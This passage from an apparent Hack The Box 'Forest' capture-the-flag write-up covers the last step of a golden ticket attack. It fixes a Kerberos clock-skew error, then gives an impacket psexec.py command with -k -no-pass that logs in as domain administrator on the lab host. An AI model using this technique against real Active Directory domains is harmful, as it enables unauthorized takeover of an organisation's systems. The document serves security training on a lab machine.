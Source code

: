 This returns and error:

```
[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

This is because Kerberos uses the current time to prevent network replay attacks. Get the date on the target in UTC with `(date).ToUniversalTime()` in PowerShell and then get the date in UTC on Kali with `date -u`. Then just figure out the delta between the two. When doing this writeup, the target was approximately 8 minutes and 30 seconds ahead of Kali. Then just run the following depending on your delta with the target:

- https://unix.stackexchange.com/questions/161891/how-to-move-system-clock-time-forward-backward

```bash
sudo date --set='+8 minutes +30 seconds'
```

Now, after running the `psexec.py` command, a new error is given:

```
[-] Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
```

This is due to some NetBIOS name issues. The following will fix this by setting the NetBIOS name to the target's hostname and setting the target IP seperately:

```bash
psexec.py -k -no-pass -dc-ip 10.10.10.161 -target-ip 10.10.10.161 htb.local/administrator@forest
```

![root3](./forest/root3.png)

And that is a golden ticket to login as domain admin on all machines in the domain (if there were other machines).